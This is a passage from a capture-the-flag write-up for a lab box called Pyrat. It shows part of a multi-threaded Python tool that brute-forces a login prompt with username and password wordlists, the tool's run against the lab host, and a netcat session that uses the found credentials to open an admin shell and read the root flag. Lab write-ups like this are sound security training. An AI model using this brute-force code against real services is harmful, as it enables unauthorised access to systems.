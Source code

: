 ````python
                    stop_flag.set()
            r.close()
        except:
            pass

def run_threads(target_ip, target_port, wordlist, mode, num_threads):
    """Run brute-force with multiple threads."""
    words = [line.strip() for line in open(wordlist)]
    step = (len(words) + num_threads - 1) // num_threads
    threads = [threading.Thread(target=brute_force, 
    args=(target_ip, target_port, words[i * step:(i + 1) \
    * step], mode)) for i in range(num_threads)]
    for thread in threads: thread.start()
    for thread in threads: thread.join()

def main():
    parser = argparse.ArgumentParser(description="Multi-threaded Brute-Force Tool")
    parser.add_argument("-t", "--target", required=True, help="Target IP")
    parser.add_argument("-p", "--port", type=int, required=True, help="Target Port")
    parser.add_argument("-u", "--userlist", required=True, help="Input Wordlist")
    parser.add_argument("-P", "--passlist", required=True, help="Password Wordlist")
    parser.add_argument("-n", "--threads", type=int, default=10, help="Threads")
    args = parser.parse_args()

    print(f"Target: {args.target}:{args.port}\nStarting input brute-force...")
    run_threads(args.target, args.port, args.userlist, "input", args.threads)

    if valid_input:
        print(f"\nStarting password brute-force for '{valid_input}'...")
        stop_flag.clear()
        run_threads(args.target, args.port, args.passlist, "password", args.threads)
    else:
        print("No valid input found.")

if __name__ == "__main__":
    main()
````
Running the script successfully reveals the valid input and password.

````bash
python3 inputpassbrute.py -t pyrat.htb -p 8000 \
-u /usr/share/seclists/Usernames/top-usernames-shortlist.txt \
-P /usr/share/seclists/Passwords/500-worst-passwords.txt \
-n 100

Target: pyrat.htb:8000
Starting input Bruteforce...
Valid input Found: admin

Starting Password Bruteforce for 'admin'...
Password Found: [REDACTED]
````
Now, using that valid input & password, i escalate the connection to root.
````bash
nc pyrat.thm 8000
admin
Password: [REDACTED]
Welcome Admin!!! Type "shell" to begin
shell
cat root.txt
[REDACTED]
````
After capturing the root flag,